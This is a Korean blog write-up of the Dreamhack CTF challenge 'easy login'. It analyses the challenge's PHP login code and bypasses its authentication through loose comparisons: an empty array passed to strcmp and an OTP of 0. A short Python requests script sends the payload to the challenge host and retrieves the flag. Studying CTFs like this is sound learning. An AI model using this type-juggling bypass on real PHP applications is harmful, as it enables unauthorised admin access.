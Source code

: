 ```yaml
---
layout: single
title: "[Dreamhack] easy login possible? write-up"
date: 2024-11-24 23:30 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] easy login

<br>

### 풀이

문제에 접속해보면 ID, PW, OTP를 입력하는 폼이 존재한다.

<img src="../images/2024-11-24-easy-login/image-20241124221037265.png" alt="image-20241124221037265" style="zoom: 50%;" />

<br>

소스 코드를 살펴보면 index.php와 login.php가 존재한다. `/login.php`에 들어가보면 index.php로 리다이렉션 되는 것으로 보아 login.php에서는 동작만 수행하고 index로 리다이렉션 시켜주는 것 같다.

<img src="../images/2024-11-24-easy-login/image-20241124221317721.png" alt="image-20241124221317721" style="zoom:50%;" />

<br>

`generatePassword` 함수를 분석해보면 인자로 패스워드 길이를 받고 `characters` 변수에 16진수 문자열들을 저장하고 `strlen`을 통해 16 값을 `charactersLength` 에 저장하고 있다. 다음으로 pw를 초기화 한 후, 반복문을 통해 `random_int`라는 난수 생성기 함수로 `$characters`에서 무작위로 하나의 문자를 선택하기 위해 0부터 15까지 돌면서 `pw` 에 저장한 후 반환한다.

```php
function generatePassword($length) {
    $characters = '0123456789abcdef';
    $charactersLength = strlen($characters);
    $pw = '';
    for ($i = 0; $i < $length; $i++) {
        $pw .= $characters[random_int(0, $charactersLength - 1)];
    }
    return $pw;
}
```

<br>

`gernerateOTP` 함수를 보면 `random_int` 함수로 0부터 999999까지의 난수를 생성하고, `strval` 함수로 문자열 형태로 변경해준다. 다음으로 `strpad` 함수로 6자리의 패딩을 맞춰주는데 왼쪽부터 0으로 채워주고 맨 앞에 P를 합쳐서 예로 `P000123` 처럼 OTP를 생성한다.

```php
function generateOTP() {
    return 'P' . str_pad(strval(random_int(0, 999999)), 6, "0", STR_PAD_LEFT);
}
```

<br>

로그인 입력 폼을 찾아보면 POST 메소드로 `login.php`에 id, pw, otp 데이터를 전송하고, 아래에는 div 태그로 `login()` 함수가 동작한다.

```php+HTML
    <div class="login-container">
        <h2>Login as admin to get flag<h2>
        <form action="login.php" method="post">
            <div class="form-group">
                <label for="id">ID</label>
                <input type="text" name="id"></br>
            </div>
            <div class="form-group">
                <label for="pw">PW</label>
                <input type="text" name="pw"></br>
            </div>
            <div class="form-group">
                <label for="otp">OTP</label>
                <input type="text" name="otp"></br>
            </div>
            <button type="submit" class="button">Login</button>
        </form>
        <div class="message">
            <?php login(); ?>
        </div>
```

<br>

`login.php` 에서는 POST 메소드로 `index.php`로 데이터를 전송하고, php 코드를 살펴보면 a 변수에 배열을 초기화하고, `foreach` 반복문을 사용해서 이전에 제출한 POST 데이터 값을 $k와 $v에 키와 벨류 형태로 배열이 만들어진다. j 변수에는 만들어진 배열을 json 데이터로 변환하고 이를 cred의 value 값으로 base64인코딩하여 index.php에 전송된다. 그리고 아래 스크립트 코드로 id가 `redir`인 폼이 자동으로 제출되도록 스크립트 코드가 작성되어 있다.

```php+HTML
<form id="redir" action="index.php" method="post">
    <?php
    $a = array();
    foreach ($_POST as $k => $v) {
        $a[$k] = $v;
    }

    $j = json_encode($a);
    echo '<input type="hidden" name="cred" value="' . base64_encode($j) . '">';
    ?>
</form>

<script type="text/javascript">
    document.getElementById('redir').submit();
</script>
```

<br>

`index.php`에서 소스 코드를 더 보면 `admin_pw` 변수에 32자리의 패스워드를 생성하고, otp도 `generateOTP` 함수로 생성하여 값을 저장하고 있다. `login` 함수를 분석해보면 다음과 같다.

1. cred 값이 비어있으면 안됨
2. cred 값을 base64 인코딩해야 함
3. cred 값을 base64 인코딩전에 json 데이터 변환해야 함 
4. id, pw, otp 값이 비어있으면 안됨
5. id가 admin이 아니면 hello, id가 리턴됨
6. 입력한 OTP 값과 OTP 값이 일치하는지 확인
7. strcmp로 admin_pw와 입력한 pw를 비교

```php
$admin_pw = generatePassword(32);
$otp = generateOTP();

function login() {
    if (!isset($_POST['cred'])) {
        echo "Please login...";
        return;
    }

    if (!($cred = base64_decode($_POST['cred']))) {
        echo "Cred error";
        return;
    }

    if (!($cred = json_decode($cred, true))) {
        echo "Cred error";
        return;
    }

    if (!(isset($cred['id']) && isset($cred['pw']) && isset($cred['otp']))) {
        echo "Cred error";
        return;
    }

    if ($cred['id'] != 'admin') {
        echo "Hello," . $cred['id'];
        return;
    }
    
    if ($cred['otp'] != $GLOBALS['otp']) {
        echo "OTP fail";
        return;
    }

    if (!strcmp($cred['pw'], $GLOBALS['admin_pw'])) {
        require_once('flag.php');
        echo "Hello, admin! get the flag: " . $flag;
        return;
    }

    echo "Password fail";
    return;
}
```

<br>

이번 문제는 php 문제에서 거의 몇 번씩 나오는 strcmp와 != 비교에서 취약점을 찾아야한다. `strcmp` 함수의 경우 일치할 경우 0을 반환하고 틀릴 경우 1을 반환하게 되는데 여기서 값으로 빈 배열을 넣어주면 NULL이 되고 결국 NULL== 0이 되기 때문에 이를 우회할 수 있다. 또한 otp 같은 경우도 !=로 비교하지만 P로 시작하는 문자열을 0이라는 값과 비교하게 되면 비교하게 되는 문자열이 숫자형으로 변환되면서 0으로 변환된다. 따라서 0으로 값을 넣어주면 우회할 수 있다.

<br>

아래와 같이 페이로드를 작성해보면 id, pw, otp에 값을 넣어주고, 해당 값을 json으로 형변환하고, base64로 인코딩 해주어야 하기 때문에 `json.dumps()`로 형 변환해준 후 base64로 인코딩하기 위해 바이트로 변환하기 위해서 `encode()` 함수까지 해주었다. 그 뒤 `base64.b64encode` 로 해당 바이트를 base64로 변환하고 이를 문자열로 변환하기 위해 decode까지 수행하여  데이터를 보내면 된다.

```python
import requests
import json
import base64

url = "http://host3.dreamhack.games:8775/index.php"

payload = {
    "id": "admin",
    "pw": [],
    "otp": 0
}

data = {
    "cred": base64.b64encode(json.dumps(payload).encode()).decode()
}

response = requests.post(url, data=data)

print(response.text)
```

<br>

아래와 같이 flag를 잘 획득한 것을 볼 수 있다.

![image-20241125001604037](../images/2024-11-24-easy-login/image-20241125001604037.png)
